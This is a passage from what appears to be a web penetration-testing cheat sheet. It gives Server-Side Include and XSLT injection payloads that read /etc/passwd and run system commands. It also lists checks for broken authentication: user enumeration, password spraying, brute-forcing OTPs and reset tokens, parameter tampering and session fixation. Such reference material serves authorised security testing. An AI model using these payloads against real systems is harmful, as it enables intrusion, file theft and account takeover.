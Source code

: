 (limited to files in the webroot directroy)

**RCE:**

```
<!--#exec cmd="cat /etc/passwd" -->
```

#### XSLT - Extensible stylesheet language transformation

**Information disclosure:**

```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

**LFI:**

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

(Need XSLT version 2.0)

**RCE:**

```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
<xsl:value-of select="php:function('system','whoami')" />
```

(Need PHP functions to be enabled)

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.


## Broken authentication

 - Test for weak password policies
 - Try to enumerate users (e.g. different errors for non existent user and wornd password)
 - Try to bruteforce one account with multiple passwords, multiple accounts with one password (password spraying)
 - Try to bruteforce OTPs / 2FA tokens
 - Try to bruteforce password reset tokens
 - Try to bruteforce security questions like maiden names or city of birth with common values
 - Try to provide the correct answer for your account and then check if you can overwrite the user in the password change step - e.g.: chang the username in `POST` request data like that:  
   `user=myusername&new_password=SuperSecure1!`
 - Try to access priv. ressources (e.g. `admin.php`) without authenticating or with a normal user
 - Try to ignore redirects and check if the body contain the protected ressource.
 - Try to tamper with URL parameters related to authentication - e.g. `edit_profile.php?uid=1234`, the `uid=1234` or `role=user` Cookie, etc.
 - Try to bruteforce or reverse engineer session tokens.  
    - Thatfor obtain multiple session toekens and check the randomness of those.  
      Look out for petterns like prepended or appended strings, incrementing numbers, etc.
    - Furthermore check if the session token can be reconstructed by known values like username, user_id, etc. and combinations of those.
    - Look out for known encodings like Base64, URLencoding or HEX encoding etc.
 - Try session fixation
 - Check if logout also invalidates the session on the server and not just delete the cookies on the user side.
